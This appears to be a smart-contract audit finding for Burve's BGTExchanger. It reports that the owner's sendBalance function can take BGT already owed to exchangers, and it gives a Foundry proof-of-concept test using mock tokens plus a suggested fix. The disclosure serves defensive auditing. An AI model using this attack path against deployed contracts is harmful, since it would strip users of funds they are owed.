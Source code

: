 Urban Latte Platypus

Medium

# Owner is able to take exchanged BGT from the exchange

### Summary

[sendBalance](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L110) function allows owner to transfer any tokens of `BGTExchanger` contract to anywhere else. It even allows BGT token as well.

To get BGT tokens from `BGTExchanger` contract, whitelisted `exchangers` need to call `exchange` function to increase `owed` balance, and call `withdraw` function to withdraw BGT token from the contract.

If owner transfers BGT tokens of the contract by using `sendBalance` function after whitelisted exchangers exchanged tokens for BGT, those exchangers could not withdraw BGT token due to lack of BGT balance.

### Root Cause

[sendBalance](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L110) function of `BGTExchanger` contract does not check if the token is BGT token or not.

If the token is the BGT token, there should be additional logic to prevent the above issue.

### Internal Pre-conditions

1. Fund BGT token by using `fund` function
2. Owner whitelists exchanger.
3. Whitelisted exchanger exchange BGT token.

### External Pre-conditions

- Nothing

### Attack Path

1. Owner calls `sendBalance` function with the following arguments.
- token: BGT token
- to: any address
- amount: The amount bigger than `BGT token balance of the contract - currently withdrawal BGT amount by exchangers`

### Impact

Some exchangers could not withdraw BGT token due to lack of token balance of BGTExchanger contract.

### PoC

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.27;

import {Test} from "forge-std/Test.sol";
import {BGTExchanger} from "../../src/integrations/BGTExchange/BGTExchanger.sol";
import {MockERC20} from "../mocks/MockERC20.sol";

contract BGTExchangerTest is Test {
    BGTExchanger bgtExchanger;
    address owner;
    address alice;
    MockERC20 ibgt;
    MockERC20 usdc;

    function setUp() public {
        owner = makeAddr("owner");
        alice = makeAddr("alice");

        ibgt = new MockERC20("ibgt", "ibgt", 18);
        usdc = new MockERC20("usdc", "usdc", 6);

        vm.startPrank(owner);
        bgtExchanger = new BGTExchanger(address(ibgt));
        vm.stopPrank();
    }

    function testOwnerIsAbleToTakeExchangedBGT() public {
        // add alice as exchanger
        vm.startPrank(owner);
        bgtExchanger.addExchanger(alice);

        // set USDC exchange rate
        bgtExchanger.setRate(address(usdc), (2 << 128)); // 1:2
        vm.stopPrank();

        // fund 100e18 iBGT
        deal(address(ibgt), address(this), 100e18);
        ibgt.approve(address(bgtExchanger), 100e18);
        bgtExchanger.fund(100e18);

        uint256 bgtBalance = bgtExchanger.bgtBalance();

        // exchange USDC for iBGT
        vm.startPrank(alice);

        uint128 amountIn = 20e18;
        deal(address(usdc), alice, amountIn);
        usdc.approve(address(bgtExchanger), amountIn);

        (uint256 exchangedBgtAmount, ) = bgtExchanger.exchange(
            address(usdc),
            amountIn
        );

        vm.stopPrank();

        // check returned amounts
        assertEq(exchangedBgtAmount, amountIn * 2, "bgtAmount");

        // Owner is able to withdraw whole BGT balance inside the contract including the exchanged assets.
        vm.startPrank(owner);
        bgtExchanger.sendBalance(address(ibgt), owner, bgtBalance);
        vm.stopPrank();

        // The alice could not withdraw exchanged BGT
        vm.startPrank(alice);
        bgtExchanger.withdraw(alice, exchangedBgtAmount);
        vm.stopPrank();
    }
}
```

### Mitigation

Update `bgtBalance` value inside `sendBalance` function if the token is the BGT token.